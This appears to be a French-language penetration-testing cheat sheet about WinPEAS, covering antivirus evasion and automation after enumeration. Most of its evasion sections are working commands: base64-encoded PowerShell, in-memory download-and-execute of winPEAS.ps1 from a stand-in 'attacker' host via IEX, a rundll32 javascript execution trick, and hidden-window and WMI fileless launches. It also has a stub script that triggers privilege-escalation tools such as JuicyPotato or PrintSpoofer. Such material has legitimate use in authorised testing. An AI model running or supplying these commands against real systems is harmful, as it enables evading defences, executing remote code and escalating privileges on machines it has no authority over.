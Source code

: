 ## 🎭 Techniques d'Evasion

### Bypass Antivirus
```powershell
# Obfuscation PowerShell
$encoded = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes('winPEAS.exe'))
powershell -EncodedCommand $encoded

# Execution en mémoire
IEX (New-Object Net.WebClient).DownloadString('http://attacker/winPEAS.ps1')

# Via rundll32
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").exec("cmd /c winPEAS.exe");
```

### Techniques stealth
```cmd
# Exécution sans fichier sur disque
powershell -WindowStyle Hidden -Command "& {IEX (New-Object Net.WebClient).DownloadString('http://attacker/winPEAS.ps1')}"

# Via WMI
wmic process call create "powershell -c IEX (New-Object Net.WebClient).DownloadString('http://attacker/winPEAS.ps1')"
```

## 🔄 Automatisation Post-WinPEAS

### Script d'exploitation automatique
```powershell
# Script PowerShell post-WinPEAS
$output = & .\winPEAS.exe
if ($output -match "AlwaysInstallElevated.*1") {
    Write-Host "AlwaysInstallElevated trouvé !"
    # Exploitation automatique
}

if ($output -match "SeImpersonatePrivilege.*Enabled") {
    Write-Host "SeImpersonatePrivilege disponible !"
    # Lancement JuicyPotato/PrintSpoofer
}
```

### Parsing des résultats
```python
# Script Python pour parser WinPEAS
import re

def parse_winpeas(output_file):
    with open(output_file, 'r', encoding='utf-8', errors='ignore') as f:
        content = f.read()
    
    # Extraction des vulnérabilités critiques
    critical = re.findall(r'.*99%.*', content)
    high = re.findall(r'.*95%.*', content)
    
    return critical, high

# Génération rapport
critical, high = parse_winpeas('winpeas_output.txt')
print(f"Vulnérabilités critiques: {len(critical)}")
```